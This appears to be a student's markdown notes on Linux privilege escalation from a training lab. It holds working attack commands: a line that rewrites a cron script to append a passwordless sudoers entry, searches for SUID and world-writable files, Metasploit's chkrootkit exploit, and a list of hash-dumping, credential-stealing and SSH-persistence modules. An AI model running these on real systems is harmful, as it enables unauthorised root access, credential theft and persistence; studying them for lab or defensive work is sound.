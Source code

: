 ### Linux Kernel Exploits
Tool called Linux Exploit Suggester can be used. Found on github. Suggests exploits from exploit db. Get file and compile like normal and deploy. 

### Misconfigured Cron Jobs
To find where a file is being used, use grep. ex. 
```
grep -rnw /usr -e "<file path>"
```
> -r = recursive
> -w = match whole words
> -n = print the line
> -e = use the pattern provided

Method 1: find running script and edit. 
```
printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
```
> this will add current users to sudoers file as soon as script runs

### Exploiting SUID Binaries
```
find / -type f -perm -04000 -ls 2>/dev/null
```

> Indicated by s in permissions (x, h, r, s)
> Look in strings to see if there are related files
> Change that file contents (or recreate) and use SUID file to run it

![](</Images/Pasted image 20231210160935.png>)

### metasploit

`ps aux` to show running processes. Some have owner for root. 

`/usr/local/bin/chkrootkit` has vulnerable versions < 0.50
`chkrootkit -V` to see if version is less than 0.5

Exit shell and background  meterpreter. Search for chkroot kit
`exploit/unix/local/chkrootkit`
Manually configure:
set session
set path (CHKROOTKIT) if different
set LHOST to eht1 or equiv

### dumping hashes

After creating session use `linux/gather/hashdump`
Creates unshadowed password file

Other modules for gathering info post expliot
- post/multi/gather/ssh_creds
- post/multi/gather/docker_creds
- post/linux/gather/hashdump
- post/linux/gather/ecryptfs_creds
- post/linux/gather/enum_psk
- post/linux/gather/enum_xchat
- post/linux/gather/phpmyadmin_credsteal
- post/linux/gather/pptpd_chap_secrets - gets PPTP user/pass/IP info
- post/linux/manage/sshkey_persistence

check for SUID and/or sudo -l

man no passwd can escape with !

LinEnum - automatic linux enum found on github
LinPeas: file is way too big to copy and paste
[linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh): this works well to tell what is available. But doesn't give actual detail. Changing level to 1 or 2 will give more information


How to find files that every user can write to files
`find / -not -type l -perm -o+w`

Generate linux hashed password for shadow file
`openssl passwd -1 -salt abc password`
